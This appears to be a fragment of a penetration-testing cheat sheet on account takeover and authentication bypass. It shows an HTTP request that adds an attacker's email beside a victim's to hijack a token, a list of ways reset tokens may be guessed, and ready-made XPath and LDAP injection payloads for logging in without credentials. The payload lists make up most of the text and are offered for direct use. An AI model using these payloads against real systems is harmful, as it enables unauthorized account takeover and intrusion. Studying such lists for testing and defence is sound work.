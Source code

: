 1. If there is JSON data in body requests, add comma

```jsx
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

1. Find out how the tokens generate

```jsx
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
```
## XPath Injection authentication bypass
```sql
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## LDAP Injection authentication bypass
```sql
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

## Remember Me
If the page has "Remember Me" functionality check how is it implemented and see if you can abuse it to takeover other accounts.

---